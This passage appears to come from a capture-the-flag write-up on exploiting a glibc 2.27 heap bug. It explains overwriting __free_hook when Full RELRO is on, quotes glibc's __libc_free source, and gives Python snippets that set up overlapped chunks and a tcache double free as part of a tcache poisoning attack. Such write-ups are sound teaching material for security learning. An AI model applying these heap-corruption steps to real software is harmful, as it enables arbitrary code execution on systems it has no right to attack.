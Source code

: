 * If we overwrite this function pointer with a pointer of our choosing, then the next time `free()` is called, it will also call the function pointed to by `__free_hook`, giving us code execution. Code found [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L3084) and shown below:

```c
void
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0)); // Calls the function pointed to be __free_hook
      return;
    }
  ...
```

* We must overwrite something like `__free_hook` or `__malloc_hook` (which is malloc's version of the function pointer) because **Full RELRO** is enabled. If it wasn't, we would just overwrite a GOT table entry (`printf` would work).

#### Step 10: **Tcache Poisoning Attack to get malloc to return an arbitrary pointer to us**

* Next, we do a tcache poisoning attack to get a chunk on top of `__free_hook`. I initially fill up the 0x128 sized tcache bin so that its easier to know which index each malloc will go into.

```python
# Fill up the 0x128 tcache bin again
# We do this to make subsequent mallocs easier to use
# It is easier to visualise the indexes in my opinion
# Indexes freed: 0, 2, 3, 4, 5, 6, 7
free(0)
for i in range(2, 8):
  free(i)
```

* Next, we add a chunk of size 0x1d8. This will get serviced by the unsorted bin since there is no tcache bin of that size. This gives us a chunk right on top of chunk B, as that was where the consolidated unsorted bin chunk was prior to this malloc. We now have overlapped chunks on top of chunk B.

* Now that we have two pointers to chunk B, we do a double free, which causes the tcache bin for 0x1d8 chunks (the 0x1d0 sized tcache bin) to have the same chunk twice:

```python
# At this point, the two overlapped chunks are at indexes 0 and 1
# Double free them and put them into tcache bin 0x1d8
free(0)
free(1)
```
